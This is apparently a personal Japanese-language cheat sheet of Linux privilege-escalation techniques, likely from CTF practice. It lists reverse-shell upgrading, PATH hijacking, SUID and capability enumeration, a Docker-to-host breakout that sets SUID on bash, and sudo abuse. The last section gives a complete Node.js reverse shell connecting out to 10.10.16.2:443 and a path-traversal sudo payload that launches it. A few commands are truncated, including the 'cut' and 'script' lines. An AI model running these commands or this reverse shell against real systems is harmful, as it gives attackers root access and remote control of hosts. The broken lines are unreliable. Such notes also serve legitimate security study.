 ## ## Reverse shellが完了した後
ptyを使用したshell
```sh
方法1
python -c "import pty;pty.spawn('/bin/bash')"

方法2
script /
```
https://hidepatidar.medium.com/spawning-interactive-reverse-shell-7732686ea775

---
## ## 1. PATH
- シェルで使用するコマンドは、絶対パスで指定をしない限り、
  PATH変数で定義されるディレクトリを見に行く。
  
- ユーザが書き込み権限を持っているフォルダーがパスにある場合アプリケーションを
  乗っ取ってスクリプトを実行する可能性がある。
  
  ▼手順
   - この手法は、システムの既存の構成に依存しているため以下の点を確認する必要がある。
     1.  $PATHの下にあるフォルダー
     2.  現在のユーザは、これらのフォルダのいずれかに対する書き込み権限を持っているか？
     3.  $PATHを変更できるか。
     4.  この脆弱性の影響を受ける、スクリプト/アプリケーションはあるか？
     
	書き込み可能なフォルダーを検索する方法。
```sh
find / -writable 2>/dev/null | cut -d "
```
ここでecho $PATHとfindの結果を比較しPATHが通っているディレクトリに書き込み権限がないことがわかったら、/tmpなどの書き込みができるフォルダーのPATHを通してあげる必要がある。
```sh
export PATH=/tmp:$PATH
```

---
## ## 2. SUID
   1.SUIDまたはSGIDビットが「s」で設定されているコマンドを特定する。
```sh
find / -type f -perm -04000 -ls 2>/dev/null
```

   2. 上記で見つかったものを以下のサイトで調べる。
	https://gtfobins.github.io/#
   3. 上記のサイトで有効な手段が見つからなかった場合。
	  例えば、nanoユーザにrootとして実行できる権限が付与されている場合、その権限を使用して、rootが所有しているファイルでも関係なく読み取るか書き換えることが可能になる。
      
[自作CheetCheat](https://hackmd.io/w2nCuiJhSzyWfmBpeeXyJw)

---
## ## 3.Capabilities
1. 以下のコマンドを使用して有効なケーパビリティを確認できる。
```sh
getcap
```
2. 上記のコマンドのみだとめちゃくちゃエラー出力が出るので以下を実施。
```sh
getcap -r / 2>/dev/null
```

---
## ## Docker
   前提:コンテナ上でRoot権限を取得していること
   1. ホスト側で以下のコマンドを入力してDockerコンテナとホスト間で共有してあるディスクを確認する。
```sh
df -h
```

以下が返ってくる。
```sh
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           394M  1.3M  392M   1% /run
/dev/sda2       6.8G  4.3G  2.4G  64% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm              64M     0   64M   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm              64M     0   64M   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
tmpfs           394M     0  394M   0% /run/user/1000
```

   2. DockerContainerにて以下のコマンドを実行
```sh
cd /bin/
chmod u+s ./bash
```
      
   3. マシンのホスト側にて以下を実施
```sh
bash -p
```
  - 参考
    - Hacktricks
      https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

---

## ## SUDO
   - sudo -l
    /usr/local/scripts/に書き込み権限がないときは/usr/local/scripts/../../../で書き込みができるディレクトリまでさかのぼり実行すればできる。
```sh
(ALL) /usr/bin/node /usr/local/scripts/*.js
```
     
- 以下のようなコードで実行可能
```sh
cat /home/angoose/reverseshell.js 

(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/bash", []);
var client = new net.Socket();
client.connect(443, "10.10.16.2", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application from crashing
})();
```

- payload
```sh
sudo /usr/bin/node /usr/local/scripts/../../../..//home/angoose/reverseshell.js
```